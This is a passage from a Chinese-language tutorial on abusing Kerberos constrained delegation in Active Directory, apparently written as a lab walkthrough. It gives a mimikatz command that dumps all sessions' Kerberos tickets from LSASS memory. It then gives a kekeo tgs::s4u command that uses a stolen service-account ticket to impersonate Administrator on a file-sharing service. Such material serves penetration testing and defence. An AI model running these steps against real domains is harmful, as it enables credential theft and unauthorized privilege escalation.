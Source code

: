 然后再用mimikatz 导入ST2，跟上面命令一样。

#### 另一种情况

如果我们不知道服务用户的明文和NTLM Hash，但是我们有了服务用户登陆的主机权限（需要本地管理员权限），我们可以用mimikatz直接从内存中把服务用户的TGT dump出来：

	mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit

windows 2003 本地管理员权限导出的ticket(但无法运行kekeo，ticket传到其他机器上利用):

![](images/36.jpg)

win7 导出的ticket，(下面和上面win2003导出的ticket都可以用来请求TGT，并利用成功):

![](images/37.jpg)

**```sekurlsa::tickets```是列出和导出所有会话的Kerberos票据，```sekurlsa::tickets```和```kerberos::list```不同，sekurlsa是从内存读取，也就是从lsass进程读取，这也就是为什么```sekurlsa::tickets /export```需要管理员权限的原因。并且```sekurlsa::tickets```的导出不受密钥限制，sekurlsa可以访问其他会话（用户）的票证。**

既然服务用户的TGT导出来了，我们就跳过```tgt::ask```请求TGT这步，直接使用kekeo请求```tgs::s4u```:

	tgs::s4u /tgt:[0;5b278]-2-0-40e10000-tony@krbtgt-LMRSEC.COM.kirbi /user:Administrator@lmrsec.com /service:cifs/AA-PC.lmrsec.com

![](images/38.jpg)
